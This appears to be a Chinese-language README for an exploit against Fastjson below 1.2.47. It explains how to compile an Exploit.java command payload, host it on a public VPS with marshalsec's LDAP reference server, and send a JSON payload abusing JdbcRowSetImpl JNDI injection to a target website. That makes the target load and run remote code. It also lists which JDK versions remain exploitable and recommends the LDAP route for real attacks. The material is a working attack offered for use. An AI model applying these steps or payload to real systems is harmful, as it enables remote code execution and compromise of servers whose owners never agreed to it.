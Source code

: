 ## 使用方法：

1. 编译Exploit.java文件

   > 可根据需求修改其中的执行命令

   ```java
   javac Exploit.java
   ```

2. 将编译后的Exploit.class放到公网vps（能够使用http去访问到）

3. 将`marshalsec-0.0.3-SNAPSHOT-all.jar`放到公网vps上，注意公网vps需配置好java环境

   执行如下命令启用ldap服务：

   ```java
   java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer “http://公网vpsHTTP的IP:端口/#Exploit” 9999
   ```

4. 在目标网站上执行如下EXP即可触发Exploit.class中的命令

   ```json
   
   {
       "a": {
           "@type": "java.lang.Class", 
           "val": "com.sun.rowset.JdbcRowSetImpl"
       }, 
       "b": {
           "@type": "com.sun.rowset.JdbcRowSetImpl", 
           "dataSourceName": "ldap://公网vps的ip:9999/Exploit", 
           "autoCommit": true
       }
   }
   ```




## 注意事项：

fastjson版本需低于1.2.47

目标网站的jdk版本不能过高，高版本的java对jndi注入进行了限制，具体要求如下：

基于rmi的利用方式：适用jdk版本：JDK 6u132, JDK 7u131, JDK 8u121之前。 在jdk8u122的时候，加入了反序列化白名单的机制，关闭了rmi远程加载代码。 基于ldap的利用方式：适用jdk版本：JDK 11.0.1、8u191、7u201、6u211之前。 在Java 8u191更新中，Oracle对LDAP向量设置了相同的限制，并发布了CVE-2018-3149，关闭了JNDI远程类加载。 可以看到ldap的利用范围是比rmi要大的，实战情况下推荐使用ldap方法进行利用。



## 演示视频：

https://www.bilibili.com/video/BV1La4y147fj


